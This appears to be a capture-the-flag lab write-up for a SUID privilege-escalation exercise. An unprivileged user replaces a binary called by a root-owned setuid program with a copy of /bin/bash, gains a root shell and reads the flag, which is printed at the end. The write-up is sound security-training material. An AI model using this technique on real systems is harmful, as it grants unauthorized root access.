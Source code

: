 # 🔬SUID

## Lab 1

>  🔬 [Exploiting Setuid Programs](https://www.attackdefense.com/challengedetails?cid=73)
>
>  - **SUID** Privilege escalation
>  - Already logged on as `student` unprivileged user

```bash
pwd
ls -al
```

```bash
drwxr-xr-x 1 student student 4096 Sep 22  2018 .
drwxr-xr-x 1 root    root    4096 Sep 22  2018 ..
-rw-r--r-- 1 root    root      88 Sep 22  2018 .bashrc
-r-x------ 1 root    root    8296 Sep 22  2018 greetings
-rwsr-xr-x 1 root    root    8344 Sep 22  2018 welcome
```

> 📌 `welcome` file has the `SUID` permission applied

```bash
./greetings
	bash: ./greetings: Permission denied
./welcome
	Welcome to Attack Defense Labs
```

```bash
file welcome
```

```bash
welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
```

```bash
strings welcome
```

![](.gitbook/assets/image-20230319194050643.png)

- It calls `greetings` binary

```bash
rm greetings
cp /bin/bash greetings
./welcome
```

![](.gitbook/assets/image-20230319194317860.png)

```bash
cd /root
cat flag
```



<details>
<summary>Reveal Flag: 🚩</summary>



`b92bcdc876d52108778e2d81f3b01494`

![](.gitbook/assets/image-20230319194412904.png)

</details>

------

